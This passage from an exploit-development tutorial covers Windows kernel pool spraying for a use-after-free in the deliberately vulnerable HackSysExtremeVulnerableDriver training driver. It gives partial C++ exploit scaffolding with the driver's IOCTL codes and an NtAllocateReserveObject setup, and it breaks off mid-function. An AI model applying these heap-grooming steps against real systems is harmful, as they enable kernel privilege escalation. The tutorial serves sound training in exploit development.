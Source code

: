 We'll do the same thing we did last time but spray some more. In my testing I found that I had to spray more to get the chunks sequential like we want:
+ defragment the pool with 10,000 objects
+ aim for some sequential/contiguous blocks of objects with another spray of 30,000 objects.

Next, we'll want to poke holes in the contiguous block portion, remember? We'll be collecting handles to these objects in vectors so that we can later free the ones we need to create the holes. The holes are already the perfect size, so we'll just free every other contiguous block handle so that way, every hole that is created in our contiguous block will be surrounded on both sides by our objects. Let's update our exploit code and test out the spray. Huge thanks to @tekwizz123 once again for showing in his exploit how to get `NtAllocateReserveObject` into the program, would've taken me a long time to trouble shoot those compilation errors without his help. Our spray test code:
```cpp
#include <iostream>
#include <vector>
#include <Windows.h>

using namespace std;

#define DEVICE_NAME             "\\\\.\\HackSysExtremeVulnerableDriver"
#define ALLOCATE_UAF_IOCTL      0x222013
#define FREE_UAF_IOCTL          0x22201B
#define FAKE_OBJECT_IOCTL       0x22201F
#define USE_UAF_IOCTL           0x222017

vector<HANDLE> defrag_handles;
vector<HANDLE> sequential_handles;

typedef struct _LSA_UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG Length;
    HANDLE RootDirectory;
    UNICODE_STRING* ObjectName;
    ULONG Attributes;
    PVOID SecurityDescriptor;
    PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES;

#define POBJECT_ATTRIBUTES OBJECT_ATTRIBUTES*

typedef NTSTATUS(WINAPI* _NtAllocateReserveObject)(
    OUT PHANDLE hObject,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN DWORD ObjectType);

HANDLE grab_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver\n";
        exit(1);
    }
```